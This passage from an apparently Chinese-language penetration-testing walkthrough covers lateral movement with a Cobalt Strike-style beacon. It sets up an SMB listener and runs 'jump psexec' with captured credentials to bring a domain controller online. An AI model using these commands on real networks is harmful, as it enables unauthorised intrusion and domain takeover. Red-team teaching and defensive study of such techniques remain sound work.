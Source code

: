 名称就叫 smb 记好了这个后面会用。![](img/28.png)



DC 上线，jump 会使用前面的凭证和 smb 监听器，完成登录 DC 的过程接下来

jump psexec 横向移动

```cmd
 beacon> jump psexec DC smb
 
 或：jump psexec 10.10.10.10 smb #目标机器可以是 DC 主机名，也可以是 IP
```



域控上线

